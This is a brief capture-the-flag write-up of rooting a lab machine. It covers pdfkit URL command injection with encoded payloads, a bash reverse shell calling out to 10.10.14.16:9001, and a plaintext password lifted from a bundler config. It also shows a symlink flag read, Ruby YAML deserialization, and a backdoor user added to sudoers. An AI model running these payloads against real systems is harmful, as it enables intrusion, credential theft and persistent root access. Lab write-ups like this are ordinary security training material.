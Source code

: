 T="10.129.80.224"

What able to get a response when passing:
url=http://`ls -al`
Noticed pdfkit and version

Googled and snyk came up: https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795

Confirmed command execution.
> **Note**
> The whole payload needed to be url encoded:
> http://%20`sleep 5`
> become:
> http%3a//%2520`sleep+5`

For reverse shell (same note about url encodig):
> http://%20`bash -c "bash -i >& /dev/tcp/10.10.14.16/9001 0>&1"`

Once in checked out `bundle config list`
Found username and password ~/.bundle/config, `su henry` with password, grabbed user flag.

Password: `"henry:Q3c1AqGHtoI0aXAYFH"`

Checked `sudo -l` noticed `/opt/update_dependancies.rb` is trying to read a `dependancies.yml`

Moved to director where henry had write access

Created `ln -s /root/root.txt dependancies.yml` re-ran and error message outputted the flag.

After investigating further, found https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/

Created a malicious `poc.yml` to load. Could not figure out how to get a reverse shell, instead ended up creating a user, and adding to sudoers list.

As a regular user:
```bash
SALT="Q9"
PLAINTEXT="secret_password"
HASH=$(perl -e "print crypt(${PLAINTEXT},${SALT})")
echo "Password Hash = \"${HASH}\""
```

But with `${HASH}` printed out since the variable most likely isn't available in the root shell
```bash
useradd -ms /bin/zsh dev
usermod -p ${HASH} dev
echo "dev ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
su dev
```
enter password then `sudo su -` to get root.
